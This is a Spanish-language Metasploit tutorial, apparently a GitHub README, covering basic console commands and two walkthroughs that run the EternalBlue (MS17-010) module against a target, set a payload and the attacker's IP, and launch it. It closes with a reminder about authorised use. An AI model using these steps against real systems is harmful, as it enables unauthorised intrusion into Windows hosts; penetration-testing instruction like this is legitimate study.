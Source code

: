 
<h1>¿Qué es Metasploit?</h1>

Metasploit es un framework de prueba de penetración ampliamente utilizado que proporciona una serie de herramientas y recursos para realizar pruebas de seguridad en sistemas informáticos. Puedes usar Metasploit para descubrir vulnerabilidades, desarrollar exploits y realizar ataques controlados en sistemas vulnerables. Aquí tienes cómo usar Metasploit:

**Uso básico:**

1. Abre tu terminal.

2. Ejecuta el siguiente comando para iniciar la consola de Metasploit:

```
msfconsole
```

3. Una vez dentro de la consola de Metasploit, puedes usar una variedad de comandos y módulos para llevar a cabo tus pruebas de penetración.

**Comandos básicos:**

- `search <keyword>`: Busca un módulo por palabra clave.
- `use <module>`: Selecciona un módulo para usar.
- `show options`: Muestra las opciones disponibles para el módulo seleccionado.
- `set <option> <value>`: Establece el valor de una opción para el módulo seleccionado.
- `exploit` o `run`: Ejecuta el módulo seleccionado.
- `exit` o `quit`: Sale de la consola de Metasploit.

**Ejemplo de uso:**

Supongamos que deseas utilizar un exploit para la vulnerabilidad MS17-010 (EternalBlue) en un sistema Windows:

1. Inicia la consola de Metasploit ejecutando `msfconsole`.

2. Busca un módulo que coincida con la palabra clave "eternalblue":

```
search eternalblue
```

3. Selecciona el módulo adecuado para utilizarlo:

```
use exploit/windows/smb/ms17_010_eternalblue
```

4. Muestra las opciones disponibles para el módulo:

```
show options
```

5. Configura las opciones necesarias, como la dirección IP del objetivo:

```
set RHOST <target_ip>
```

6. Ejecuta el exploit:

```
exploit
```

Una vez ejecutado, el exploit intentará aprovechar la vulnerabilidad en el sistema de destino y, si es exitoso, te dará acceso al sistema comprometido.

**Ejemplo:**

1. Inicia la consola de Metasploit ejecutando `msfconsole`.

2. Busca un exploit para una vulnerabilidad específica, por ejemplo, CVE-2017-0143:

```
search CVE-2017-0143
```

3. Selecciona un exploit adecuado de la lista de resultados:

```
use <número_del_exploit>
```

4. Muestra las opciones disponibles para el exploit seleccionado:

```
show options
```

5. Configura los parámetros necesarios, como la dirección IP de la víctima:

```
set RHOST <ip_victima>
```

6. Verifica los payloads disponibles para este exploit:

```
show payloads
```

7. Selecciona un payload adecuado:

```
set payload <nombre_del_payload>
```

8. Configura la dirección IP del atacante:

```
set LHOST <ip_atacante>
```

9. Verifica que todas las opciones estén configuradas correctamente:

```
show options
```

10. Una vez que estés seguro de que todo está configurado correctamente, ejecuta el exploit:

```
run
```

Esto iniciará el payload y ejecutará el ataque contra la máquina víctima. Recuerda que es fundamental utilizar Metasploit de manera ética y legal, y solo en sistemas en los que tengas permiso explícito para realizar pruebas de penetración. El uso indebido de esta herramienta puede tener consecuencias legales graves.
